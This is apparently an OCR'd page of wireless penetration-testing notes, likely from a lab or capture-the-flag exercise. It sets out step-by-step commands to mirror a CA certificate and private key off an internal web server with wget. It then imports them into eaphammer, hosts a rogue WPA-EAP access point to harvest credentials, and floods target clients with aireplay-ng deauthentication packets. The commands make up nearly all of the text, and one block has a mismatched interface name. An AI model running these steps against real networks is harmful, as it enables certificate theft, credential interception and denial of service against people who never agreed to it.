 ### Exfiltrate CA cert for priviledge account
1. locate the files 
2. download all ``` wget -A txt -m -p -E -k -K -np  http://192.168.7.1/.internalCA/ ```
3. You will need server.crt, ca.crt, server.key

### [Option 3] Deauth attack (req getting files from another AP web server but same Channel)
1. Import cert from above
   ```
   python3 /home/kali/Downloads/wifi-tools/eaphammer/eaphammer --cert-wizard import --server-cert ./server.crt --ca-cert ./ca.crt --private-key ./client.key --private-key-passwd xd12345
   ```
2. Host Rogue AP
   ```
   cd /home/kali/Downloads/wifi-tools/eaphammer
   python3 ./eaphammer -i wlan4 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
   ```
3 [Shells] 
   ```
   // for N of APs' bssid, cover all possible AP in the area to do replay 

   airmon-ng start wlan1
   iwconfig wlan1mon channel 44
   aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:BA:6C:41


   airmon-ng start wlan2
   iwconfig wlan1mon channel 44
   aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan1mon -c 64:32:A8:BA:6C:41
   ```
